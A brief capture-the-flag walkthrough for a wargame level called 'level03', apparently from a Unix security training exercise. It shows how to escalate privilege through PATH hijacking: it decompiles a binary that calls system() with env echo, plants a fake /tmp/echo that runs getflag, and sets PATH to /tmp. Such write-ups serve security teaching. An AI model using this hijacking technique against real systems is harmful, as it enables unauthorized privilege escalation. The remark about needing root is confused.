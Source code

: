 you can see you have an executable named level03, when you execute it it print: Exploit me.

then use Ghidra to Decompilate the executable. Line 392 you can see the following command:
  iVar1 = system("/usr/bin/env echo Exploit me");

Next step is to change echo to call the getflag executable, using alias doesnt work so you have to change the env to 
call another executable.

echo '/bin/getflag' > /tmp/echo => permit to create a file that will call getflag executable.
you have to go to root to do this because else you dont have rights.

then give rights to your file: chmod 777 /tmp/echo

and then you have to change the PATH variable in the env via export
export PATH="/tmp"

and the execute ./level03

youve got the flag but you need to change back the PATH to bin to make: su level04